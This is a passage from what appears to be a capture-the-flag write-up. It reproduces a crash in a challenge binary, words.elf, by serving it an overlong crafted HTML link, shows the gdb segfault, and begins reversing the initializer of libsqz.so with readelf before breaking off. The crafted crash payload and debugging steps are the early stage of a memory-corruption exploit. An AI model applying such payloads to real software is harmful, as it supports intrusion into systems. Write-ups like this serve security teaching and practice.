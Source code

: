 In terminal A:

```.sh
$ python -c 'print("<a href=" + "X"*254 + "% x>")' > foo
$ python -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/) ...
```

In terminal B:

```.sh
$ env LD_LIBRARY_PATH=$PWD gdb ./words.elf
(gdb) run
Starting program: /home/user/words.elf
> Ignore case=yes
> Fetch http://localhost:8080/foo

Program received signal SIGSEGV, Segmentation fault.
0x0000000000642dab in g_words ()
(gdb)
```

"But this address is not executable!" we hear you say.  Don't worry.  It's time
to look at `libsqz.so`.

## `libsqz.so`

There's more than one way to skin this cat.  Reversing may not be the easiest.
Poking and prodding while keeping a close look at `/proc/$(pidof
words.elf)/maps` may be enough to get the right idea.  We don't know.

So we'll just tell you how it works.

As we saw earlier none of the symbols exposed by `libsqz.so` are actually used
for anything.  Using `readelf` we can see that the library defines an
initializer, `libsqz_init`, at `0x460`:

```.sh
$ readelf -d libsqz.so
Dynamic section at offset 0xa008 contains 11 entries:
  Tag        Type                         Name/Value
 0x000000000000000c (INIT)               0x460
 0x0000000000000004 (HASH)               0x120
 0x0000000000000005 (STRTAB)             0x168
 0x0000000000000006 (SYMTAB)             0x138
 0x000000000000000a (STRSZ)              24 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000007 (RELA)               0x9c20
 0x0000000000000008 (RELASZ)             24 (bytes)
 0x0000000000000009 (RELAENT)            24 (bytes)
 0x000000006ffffff9 (RELACOUNT)          1
 0x0000000000000000 (NULL)               0x0
```

This function does three things:

